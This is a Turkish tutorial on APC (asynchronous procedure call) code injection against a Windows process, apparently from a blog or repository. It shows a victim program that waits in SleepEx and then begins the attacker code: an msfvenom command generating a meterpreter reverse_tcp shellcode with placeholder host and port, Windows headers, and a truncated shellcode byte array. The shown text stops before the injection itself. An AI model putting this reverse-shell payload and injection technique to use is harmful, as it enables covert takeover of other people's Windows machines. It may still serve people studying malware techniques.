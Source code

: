 ```
int main()
{
    std::cout << "Entering alertable state...\n";
		SleepEx(1000 * 60, true);
}
```

Basit bir şekilde kodumuz bu. Şimdi birazdan **Saldırgan** kodunu geliştirmeye başladığımızda bu kısmı daha iyi anlayacağız.

Buradaki **SleepEx** fonksiyonu bir **APC** fonksiyonudur.

**Windows** tarafından oluşturulan bu **APC** dökümanında hangi fonksiyonlar mevcut bakarsanız **SleepEx**'i görebilirsiniz tabi onun dışında bir çok **APC** fonksiyonu mevcut : 

[Asynchronous Procedure Calls](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

Birazdan yapacağımız şey basitçe **SleepEx** fonksiyonunun başlangıç adresine bizim oluşturacağımız **Shellcode**'u ekleyeceğiz. Dolayısıyla bu **Kurban** yazılım çalıştığında bizim **Zararlı Kod**'umuzu çalıştıracak.

### Attacker Code

**Saldırgan** kodunu geliştirmeye başlamadan önce alttaki parametreler aracığılıyla **MSFVenom** kullanarak bir **Shellcode** oluşturduğunuzu varsayıyorum.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=xxxx EXITFUNC=thread -f c
```

Öncelikle kütüphanelerimizi ekleyelim :

```
#include <iostream>
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>
```

**Main** fonksiyonunu oluşturalım :

```
int main()
{
}
```

**Saldırgan**'ın kodu biraz uzun olduğundan adım adım ilerleyeceğiz. Kodu tamamen anlattıktan sonra **Pastebin** linkini vereceğim kendiniz derleyip çalıştırmak isterseniz diye.

Şimdi **Shellcode**'umuzu bir değişkene atayalım :

```
unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b"
		"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b"
		"\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41";
```

